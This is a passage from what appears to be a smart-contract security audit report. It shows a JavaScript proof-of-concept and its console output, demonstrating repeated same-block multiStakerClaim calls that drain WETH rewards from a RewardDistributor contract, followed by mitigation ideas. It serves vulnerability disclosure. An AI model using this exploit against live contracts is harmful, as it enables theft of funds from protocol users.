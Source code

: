 ```javascript
    await rewardDistributor.multiStakerClaim([lockId + 1], [0]); // Claim same epoch rewards for lock #2
    // ... Repeat as much as you want ;)
    // --- IN THE SAME BLOCK ---
    await mine();

    console.log('Taker WETH balance:', utils.formatEther(await weth.balanceOf(taker.address)));
    await weth.connect(taker).withdraw(await weth.balanceOf(taker.address)); // Could be the last transaction in the block too
    await mine();

    // Taker balance difference is +++ at the end 
    let takerEndBalance = (await ethers.provider.getBalance(taker.address)).sub(takerStartBalance);
    console.log('Taker ETH balance:', utils.formatEther(await ethers.provider.getBalance(taker.address)), '/ end:', utils.formatEther(takerEndBalance));
});
```
Sample output:
```console
RewardDistributor.sol                                                                                                                                              
    Exploits                                                                                                                                                         
[SOL] 27 0 50000000000000000 // First addFee call for adding fees

[SOL] 38 0 50000000000000000 // Second addFee triggering epoch change
[WETH] Deposit 100100000000000000000 // Epoch 0 WETH deposit
[SOL_EPOCH]
1 599999983058823529411764 16941175992249134 50000000000000000 // epoch, tokenToEmit, stakerReward, previousEpochFee
16941175992249134 401999977298823849898962 197999988818823687263667 38 // rewardStaker[epoch], rewardTrader[epoch], rewardExchange[epoch], epochBeginTime[epoch]

0x70997970c51812dc3a010c7d01b50e0d17dc79c8 balance before: 0 // WETH balance of taker
[CLAIM] 6 38 911822995832895 // First multiStakerClaim, (tokenID, epochBeginTime, balanceOfAtNFT)
[WETH] Sent 16683333333333333333 to 0x70997970c51812dc3a010c7d01b50e0d17dc79c8
0x70997970c51812dc3a010c7d01b50e0d17dc79c8 balance after: 16683333333333333333 // WETH balance of taker

0x70997970c51812dc3a010c7d01b50e0d17dc79c8 balance before: 16683333333333333333 // WETH balance of taker
[CLAIM] 7 38 911822995832895 // Second multiStakerClaim, (tokenID, epochBeginTime, balanceOfAtNFT)
[WETH] Sent 16683333333333333333 to 0x70997970c51812dc3a010c7d01b50e0d17dc79c8
0x70997970c51812dc3a010c7d01b50e0d17dc79c8 balance after: 33366666666666666666 // WETH balance of taker

Taker WETH balance: 33.366666666666666666 // After block is mined
Taker ETH balance: 10033.36524137856006494 / end: 33.365289929424174404 // Profit !!
      √ [#2] Repeated calls to `multiStakerClaim` in the same block leads to loss of funds
```
## Recommended Mitigation Steps
I initially thought about a few possible solutions:
- Checking a lock creation time to prevent claiming from locks created in the same block **but the attacker can just create the blocks beforehand.**
- Tracking the `msg.sender` or `tx.origin` for preventing multiple calls to `multiStakerClaim` in the same block **but the attacker can just send transactions from different addresses.**
- Preventing the merging of locks **but the attacker can just create locks in advance and withdraw/add funds continuously between old/new locks.** 
